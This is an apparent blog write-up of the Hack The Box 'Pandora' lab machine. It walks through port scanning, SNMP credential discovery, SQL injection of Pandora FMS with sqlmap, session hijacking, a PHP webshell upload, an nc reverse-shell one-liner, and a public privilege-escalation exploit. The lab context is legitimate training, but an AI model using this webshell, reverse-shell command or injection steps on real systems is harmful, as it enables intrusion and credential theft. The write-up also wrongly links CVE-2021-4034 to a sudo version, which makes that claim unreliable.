




<!-- // import SpotifyPlayer from "./SpotifyPlayer";

// Here will a React component go:

// <SpotifyPlayer
//   uri="spotify:user:bbcamerica:playlist:3w18u69NplCpXVG4fQG726"
//   size="large"
//   theme="black"
//   view="list"
// /> -->


## Introduction

Pandora is a Linux machine hosted on Hack the Box Platform. Pandora introduces you to some of the critical vulnerabilities
in the Linux machines which you can exploit to use in you own favour. Pandora introduces me to Revese Shell , Privalage Escalation,
enumerate SNMP services, Proxying and Tunneling and Web Shell Exploitation . I hope it will be a fun read for you all and
you leave this blog with handful of knowledge about Linux OS.

### Scanning and Enumeration of Open Ports (Using Nmap)

##### Nmap

Nmap (or network mapper) is a open source tool for Network exploitation and security analysis. Using Nmap, you can scan
one or several hosts for different services running on different ports.
For installing and more info on Nmap , use

```noLineNumbers
sudo apt install nmap
man nmap
```

##### Service Scanning

```noLineNumbers
nmap -Pn -sV -sC 10.10.11.136
```

-sV: Probe open ports to determine service/version info

-sC: equivalent to --script=default

-Pn: Treat all hosts as online -- skip host discovery

```
➜  ~ git:(master) ✗ nmap -Pn -sV -sC 10.10.11.136

Starting Nmap 7.60 ( https://nmap.org ) at 2022-03-06 11:48 IST
Nmap scan report for 10.10.11.136
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Play | Landing
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.77 seconds

```

Scans show that we have a SSH service running on Port 22 and a HTTP server running on Port 80 (http://10.10.11.136:80).

- Two emails were found
  - support@panda.htb
  - contact@panda.htb

But no SMTP server was set up on the website, so this is of no use.

- A form was also present on the website . I have intercepted the message send request from burp and saved it
  into a file which then used with sqlmap to test for sql vulnerabilities in the only input fields of the application.
  None of the input fields seem injectable:

  - Burp Intercepted Request (saved in request File)

  ```NoLineNumbers
  GET /?fullName=Random&email=random%40xyz.com&phone=%2B885+23+34355&message=Demo HTTP/1.1
  Host: 10.10.11.136
  Upgrade-Insecure-Requests: 1
  User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.82 Safari/537.36
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
  Referer: http://10.10.11.136/
  Accept-Encoding: gzip, deflate
  Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
  Connection: close

  ```

  - Using the request with sqlmap to check for SQL Injection Vulnerability.

  ```
  # sqlmap -r request --dbs
  [07:38:58] [CRITICAL] all tested parameters do not appear to be injectable.

  ```

  Nothing interesting found so far.

##### UDP service Scan with Nmap

```NoLineNumbers
➜  ~ git:(master) ✗ sudo nmap -sU --top-ports 20 10.10.11.136

Starting Nmap 7.60 ( https://nmap.org ) at 2022-03-06 12:09 IST
Nmap scan report for 10.10.11.136
Host is up (0.13s latency).

PORT      STATE  SERVICE
53/udp    closed domain
67/udp    closed dhcps
68/udp    closed dhcpc
69/udp    closed tftp
123/udp   closed ntp
135/udp   closed msrpc
137/udp   closed netbios-ns
138/udp   closed netbios-dgm
139/udp   closed netbios-ssn
161/udp   open   snmp
162/udp   closed snmptrap
445/udp   closed microsoft-ds
500/udp   closed isakmp
514/udp   closed syslog
520/udp   closed route
631/udp   closed ipp
1434/udp  closed ms-sql-m
1900/udp  closed upnp
4500/udp  closed nat-t-ike
49152/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 16.16 seconds

```

Yeah we found a SNMP service running on Port 161.

### SNMP

The Microsoft Windows implementation of the Simple Network Management Protocol (SNMP) is used to configure remote devices,
monitor network performance, audit network usage, and detect network faults or inappropriate access.

We want to thoroughly scan the SNMP service . For this we will use **Metasploit Framework(msf)** SNMP enumeration module.
You can find details about Metasploit [here](https://www.metasploit.com/get-started).

```
msf6 > use auxiliary/scanner/snmp/snmp_enum
msf6 auxiliary(scanner/snmp/snmp_enum) > show info
\
       Name: SNMP Enumeration Module
     Module: auxiliary/scanner/snmp/snmp_enum
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  Matteo Cantoni <goony@nothink.org>

Check supported:
  No

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  COMMUNITY  public           yes       SNMP Community String
  RETRIES    1                yes       SNMP Retries
  RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
  RPORT      161              yes       The target port (UDP)
  THREADS    1                yes       The number of concurrent threads (max one per host)
  TIMEOUT    1                yes       SNMP Timeout
  VERSION    1                yes       SNMP Version <1/2c>

Description:
  This module allows enumeration of any devices with SNMP protocol
  support. It supports hardware, software, and network information.
  The default community used is "public".

References:
  https://en.wikipedia.org/wiki/Simple_Network_Management_Protocol
  https://net-snmp.sourceforge.io/docs/man/snmpwalk.html
  http://www.nothink.org/codes/snmpcheck/index.php

```

Set RHOSTS to 10.10.11.136 and run the module.One interesting thing was found in logs.

```
[*] System information:

Host IP                       : 10.10.11.136
Hostname                      : pandora
Description                   : Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64
Contact                       : Daniel
Location                      : Mississippi
Uptime snmp                   : 16:15:34.74
Uptime system                 : 16:15:25.94
System date                   : 2022-3-6 06:55:07.0

838                 runnable            cron                /usr/sbin/cron      -f
841                 runnable            cron                /usr/sbin/CRON      -f
855                 runnable            sh                  /bin/sh             -c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'
865                 runnable            atd                 /usr/sbin/atd       -f
870                 running             snmpd               /usr/sbin/snmpd     -LOw -u Debian-snmp -g Debian-snmp -I -smux mteTrigger mteTriggerConf -f -p /run/snmpd.
```

We found **Username = Daniel** and **Password = HotelBabylon23**

### SSH

Now, I am going to try to ssh with the credentials we have found:



### Privilege Escalation

- #### Root Own

I know its a bit weird to get root access before user access. But in the above step i logged in the machine
as daniel and I ran 'Linpeas.sh'.

[**LinPeas**](https://github.com/carlospolop/PEASS-ng)(Linux local Privilege Escalation Awesome Script) is a script that
scans the entire Linux Machine and gives you all the information accessible .

On scanning , I found that the machine used sudo version 1.8.31 which was Vulnerable to CVE-2021-4034 [Read More](https://nvd.nist.gov/vuln/detail/CVE-2021-4034).



Found the exploit of the above vulnerability [here](https://github.com/berdav/CVE-2021-4034) and yeah got the root access.

```
cd /root
cat root.txt
```

- #### User Own
  Getting the root access gave the user access also.

```
cd /home/matt
cat user.txt
```

And the machine is completed.
ALthough the machine is completed I would like to highlight a few other interesting things
I found from the above scan.

```
╔══════════╣ Hostname, hosts and DNS
pandora
127.0.0.1 localhost.localdomain pandora.htb pandora.pandora.htb
127.0.1.1 pandora

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

╔══════════╣ Web files?(output limit)
/var/www/:
total 16K
drwxr-xr-x  4 root root 4.0K Dec  7 14:32 .
drwxr-xr-x 14 root root 4.0K Dec  7 14:32 ..
drwxr-xr-x  3 root root 4.0K Dec  7 14:32 html
drwxr-xr-x  3 matt matt 4.0K Dec  7 14:32 pandora

/var/www/html:
total 48K
drwxr-xr-x 3 root root 4.0K Dec  7 14:32 .

```

There was a site hosted on localhost of the host machine. I wanted to view the web-page on my machine Web Browser. So I
used Proxying and Port Forwading.

##### Proxying and Port Forwading

On Local Machine we use the following command to Forward Port 80 of the host machine on Port 8081 localhost of our machine.

```noLineNumbers
ssh daniel@10.10.11.136 -L 8081:localhost:80
```

Output:

```
➜  HTB git:(master) ✗ ssh daniel@10.10.11.136 -L 8081:localhost:80
daniel@10.10.11.136's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon  7 Mar 06:41:44 UTC 2022

  System load:           0.11
  Usage of /:            63.0% of 4.87GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             237
  Users logged in:       1
  IPv4 address for eth0: 10.10.11.136
  IPv6 address for eth0: dead:beef::250:56ff:feb9:abcc

  => /boot is using 91.8% of 219MB


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Mar  7 06:40:39 2022 from 10.10.11.136
daniel@pandora:~$

```


On entering any random username, we see this dialog box


On entering username: daniel and pasword : HotelBabylon23 , we get this



On googling , I got that this is a vulnerability of Pandora FMS where session_id is prone to SQL injection.
Using the command , I got

```noLineNumbers
sqlmap -u "localhost:8081/pandora_console/include/chart_generator.php/?session_id='' " --dump
```

Output :

```
Database: pandora
Table: tpassword_history
[2 entries]
+---------+---------+---------------------+----------------------------------+---------------------+
| id_user | id_pass | date_end            | password                         | date_begin          |
+---------+---------+---------------------+----------------------------------+---------------------+
| matt    | 1       | 0000-00-00 00:00:00 | f655f807365b6dc602b31ab3d6d43acc | 2021-06-11 17:28:54 |
| daniel  | 2       | 0000-00-00 00:00:00 | 76323c174bd49ffbbdedf678f6cc89a6 | 2021-06-17 00:11:54 |
+---------+---------+---------------------+----------------------------------+---------------------+

Database: pandora
[178 tables]
+---------------------------------------+
| taddress                              |
| taddress_agent                        |
| tagent_access                         |
| tagent_custom_data                    |
| tagent_custom_fields                  |
| tagent_custom_fields_filter           |
| tagent_module_inventory               |
| tagent_module_log                     |
| tagent_repository                     |
| tagent_secondary_group                |
| tagente                               |
| tagente_datos                         |
| tagente_datos_inc                     |
| tagente_datos_inventory               |
| tagente_datos_log4x                   |
| tagente_datos_string                  |
| tagente_estado                        |
| tagente_modulo                        |
| talert_actions                        |
| talert_commands                       |
| talert_snmp                           |
| talert_snmp_action                    |
| talert_special_days                   |
| talert_template_module_actions        |
| talert_template_modules               |
| talert_templates                      |
| tattachment                           |
| tautoconfig                           |
| tautoconfig_actions                   |
| tautoconfig_rules                     |
| tcategory                             |
| tcluster                              |
| tcluster_agent                        |
| tcluster_item                         |
| tcollection                           |
| tconfig                               |
| tconfig_os                            |
| tcontainer                            |
| tcontainer_item                       |
| tcredential_store                     |
| tdashboard                            |
| tdatabase                             |
| tdeployment_hosts                     |
| tevent_alert                          |
| tevent_alert_action                   |
| tevent_custom_field                   |
| tevent_extended                       |
| tevent_filter                         |
| tevent_response                       |
| tevent_rule                           |
| tevento                               |
| textension_translate_string           |
| tfiles_repo                           |
| tfiles_repo_group                     |
| tgis_data_history                     |
| tgis_data_status                      |
| tgis_map                              |
| tgis_map_connection                   |
| tgis_map_has_tgis_map_con             |
| tgis_map_layer                        |
| tgis_map_layer_groups                 |
| tgis_map_layer_has_tagente            |
| tgraph                                |
| tgraph_source                         |
| tgraph_source_template                |
| tgraph_template                       |
| tgroup_stat                           |
| tgrupo                                |
| tincidencia                           |
| titem                                 |
| tlanguage                             |
| tlayout                               |
| tlayout_data                          |
| tlayout_template                      |
| tlayout_template_data                 |
| tlink                                 |
| tlocal_component                      |
| tlog_graph_models                     |
| tmap                                  |
| tmensajes                             |
| tmetaconsole_agent                    |
| tmetaconsole_agent_secondary_group    |
| tmetaconsole_event                    |
| tmetaconsole_event_history            |
| tmetaconsole_setup                    |
| tmigration_module_queue               |
| tmigration_queue                      |
| tmodule                               |
| tmodule_group                         |
| tmodule_inventory                     |
| tmodule_relationship                  |
| tmodule_synth                         |
| tnetflow_filter                       |
| tnetflow_report                       |
| tnetflow_report_content               |
| tnetwork_component                    |
| tnetwork_component_group              |
| tnetwork_map                          |
| tnetwork_matrix                       |
| tnetwork_profile                      |
| tnetwork_profile_component            |
| tnetworkmap_ent_rel_nodes             |
| tnetworkmap_enterprise                |
| tnetworkmap_enterprise_nodes          |
| tnews                                 |
| tnota                                 |
| tnotification_group                   |
| tnotification_source                  |
| tnotification_source_group            |
| tnotification_source_group_user       |
| tnotification_source_user             |
| tnotification_user                    |
| torigen                               |
| tpassword_history                     |
| tperfil                               |
| tphase                                |
| tplanned_downtime                     |
| tplanned_downtime_agents              |
| tplanned_downtime_modules             |
| tplugin                               |
| tpolicies                             |
| tpolicy_agents                        |
| tpolicy_alerts                        |
| tpolicy_alerts_actions                |
| tpolicy_collections                   |
| tpolicy_groups                        |
| tpolicy_modules                       |
| tpolicy_modules_inventory             |
| tpolicy_plugins                       |
| tpolicy_queue                         |
| tprofile_view                         |
| tprovisioning                         |
| tprovisioning_rules                   |
| trecon_script                         |
| trecon_task                           |
| trel_item                             |
| tremote_command                       |
| tremote_command_target                |
| treport                               |
| treport_content                       |
| treport_content_item                  |
| treport_content_item_temp             |
| treport_content_sla_com_temp          |
| treport_content_sla_combined          |
| treport_content_template              |
| treport_custom_sql                    |
| treport_template                      |
| treset_pass                           |
| treset_pass_history                   |
| tserver                               |
| tserver_export                        |
| tserver_export_data                   |
| tservice                              |
| tservice_element                      |
| tsesion                               |
| tsesion_extended                      |
| tsessions_php                         |
| tskin                                 |
| tsnmp_filter                          |
| ttag                                  |
| ttag_module                           |
| ttag_policy_module                    |
| ttipo_modulo                          |
| ttransaction                          |
| ttrap                                 |
| ttrap_custom_values                   |
| tupdate                               |
| tupdate_journal                       |
| tupdate_package                       |
| tupdate_settings                      |
| tuser_double_auth                     |
| tuser_task                            |
| tuser_task_scheduled                  |
| tusuario                              |
| tusuario_perfil                       |
| tvisual_console_elements_cache        |
| twidget                               |
| twidget_dashboard                     |
+---------------------------------------+

Database: information_schema
[78 tables]
+---------------------------------------+
| ALL_PLUGINS                           |
| APPLICABLE_ROLES                      |
| CHARACTER_SETS                        |
| CHECK_CONSTRAINTS                     |
| CLIENT_STATISTICS                     |
| COLLATIONS                            |
| COLLATION_CHARACTER_SET_APPLICABILITY |
| COLUMNS                               |
| COLUMN_PRIVILEGES                     |
| ENABLED_ROLES                         |
| ENGINES                               |
| EVENTS                                |
| FILES                                 |
| GEOMETRY_COLUMNS                      |
| GLOBAL_STATUS                         |
| GLOBAL_VARIABLES                      |
| INDEX_STATISTICS                      |
| INNODB_BUFFER_PAGE                    |
| INNODB_BUFFER_PAGE_LRU                |
| INNODB_BUFFER_POOL_STATS              |
| INNODB_CMP                            |
| INNODB_CMPMEM                         |
| INNODB_CMPMEM_RESET                   |
| INNODB_CMP_PER_INDEX                  |
| INNODB_CMP_PER_INDEX_RESET            |
| INNODB_CMP_RESET                      |
| INNODB_FT_BEING_DELETED               |
| INNODB_FT_CONFIG                      |
| INNODB_FT_DEFAULT_STOPWORD            |
| INNODB_FT_DELETED                     |
| INNODB_FT_INDEX_CACHE                 |
| INNODB_FT_INDEX_TABLE                 |
| INNODB_LOCKS                          |
| INNODB_LOCK_WAITS                     |
| INNODB_METRICS                        |
| INNODB_MUTEXES                        |
| INNODB_SYS_COLUMNS                    |
| INNODB_SYS_DATAFILES                  |
| INNODB_SYS_FIELDS                     |
| INNODB_SYS_FOREIGN                    |
| INNODB_SYS_FOREIGN_COLS               |
| INNODB_SYS_INDEXES                    |
| INNODB_SYS_SEMAPHORE_WAITS            |
| INNODB_SYS_TABLES                     |
| INNODB_SYS_TABLESPACES                |
| INNODB_SYS_TABLESTATS                 |
| INNODB_SYS_VIRTUAL                    |
| INNODB_TABLESPACES_ENCRYPTION         |
| INNODB_TABLESPACES_SCRUBBING          |
| INNODB_TRX                            |
| KEYWORDS                              |
| KEY_CACHES                            |
| KEY_COLUMN_USAGE                      |
| PARAMETERS                            |
| PARTITIONS                            |
| PLUGINS                               |
| PROCESSLIST                           |
| PROFILING                             |
| REFERENTIAL_CONSTRAINTS               |
| ROUTINES                              |
| SCHEMATA                              |
| SCHEMA_PRIVILEGES                     |
| SESSION_STATUS                        |
| SESSION_VARIABLES                     |
| SPATIAL_REF_SYS                       |
| SQL_FUNCTIONS                         |
| STATISTICS                            |
| SYSTEM_VARIABLES                      |
| TABLES                                |
| TABLESPACES                           |
| TABLE_CONSTRAINTS                     |
| TABLE_PRIVILEGES                      |
| TABLE_STATISTICS                      |
| TRIGGERS                              |
| USER_PRIVILEGES                       |
| USER_STATISTICS                       |
| VIEWS                                 |
| user_variables                        |
+---------------------------------------+
```

I wanted to see tsessions table in Pandora database to get any running sessions.I used the sqlmap command slight differently.

```noLineNumbers
sqlmap -u "localhost:8081/pandora_console/include/chart_generator.php/?session_id='' " -D Pandora -T tsessions --dump
```

Output:

```
dpnq592rmkdof3o48mf1g3l8go,NULL,1646267969
dqa4g2u5t3a0n9im1jo60jtmsr,NULL,1646272968
dquu534edhm0qjd0of7a6quof2,"id_usuario|s:5:""admin"";alert_msg|a:0:{}new_chat|b:0;",1646263054
dss0snmh3bsm6ihp5uebquic14,NULL,1646267970
fcvrhp8k1bst0bc09jq66gr9mb,NULL,1646272787
fdj2uq6f86k1hnjvm4f7caj475,"alert_msg|a:0:{}new_chat|b:0;id_usuario|s:5:""admin"";",1646274439
fe3sc8c2b6hv6qf3m6qfnkls7t,NULL,1646267966
fq8s3shd4c9dl5o3b6i9cshs4d,NULL,1646272962
g1dn8s39nia0cd4jngi8n9jmtb,NULL,1646272758
g3ens9fnqjmigvaci0livfs9q4,NULL,1646267969
g4e01qdgk36mfdh90hvcc54umq,"id_usuario|s:4:""matt"";alert_msg|a:0:{}new_chat|b:0;",1638796349

```

Setting the session id of admin , I logged in as admin(here matt is the admin).



After some exploration of the website , I found the file Manager and was able to upload files successfully.

### Reverse Shell

I uploaded webshell and used it to get Reverse Shell.

Webshell : Create a php file and upload it .

```
<html>

<body>

<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">

<input type="TEXT" name="cmd" autofocus id="cmd" size="80">

<input type="SUBMIT" value="Execute">

</form>

<pre>

<?php

if(isset($_GET['cmd']))

{

system($_GET['cmd']);

}

?>

</pre>

</body>

</html>
```

Reverse Shell : Type the foloowing command to get the Reverse Shell

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your ip> 4444 >/tmp/f

```

Run the listener before executing the call and catch the connection once it’s set and listening:

```
nc -lp 4444
```

Yeah we got the reverse Shell with user as matt.
